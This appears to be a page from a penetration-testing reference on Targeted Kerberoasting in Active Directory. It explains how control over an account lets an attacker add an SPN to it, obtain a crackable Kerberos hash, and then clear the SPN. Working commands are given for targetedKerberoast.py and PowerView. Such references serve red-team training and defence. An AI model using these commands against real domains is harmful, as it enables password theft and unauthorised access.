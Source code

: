 This abuse can be carried out when controlling an object that has a `GenericAll, GenericWrite, WriteProperty or Validated-SPN` over the target. A member of the Account Operator group usually has those permissions.

The attacker can add an SPN (ServicePrincipalName) to that account. Once the account has an SPN, it becomes vulnerable to Kerberoasting. This technique is called Targeted Kerberoasting.

=== "UNIX-like"
    From UNIX-like systems, this can be done with [targetedKerberoast.py](https://github.com/ShutdownRepo/targetedKerberoast) (Python)
    ```bash
    targetedKerberoast.py -v -d "$DC_HOST" -u "$USER" -p "$PASSWORD"
    ```
=== "Windows"
    From Windows machines, this can be achieved with Set-DomainObject and Get-DomainSPNTicket (PowerView module).
    ```bash
    # Make sur that the target account has no SPN
    Get-DomainUser 'victimuser' | Select serviceprincipalname

    # Set the SPN
    Set-DomainObject -Identity 'victimuser' -Set @{serviceprincipalname='nonexistent/BLAHBLAH'}

    # Obtain a kerberoast hash
    $User = Get-DomainUser 'victimuser'
    $User | Get-DomainSPNTicket | fl

    # Clear the SPNs of the target account
    $User | Select serviceprincipalname
    Set-DomainObject -Identity victimuser -Clear serviceprincipalname
    ```
Once the Kerberoast hash is obtained, it can possibly be cracked to recover the account's password if the password used is weak enough.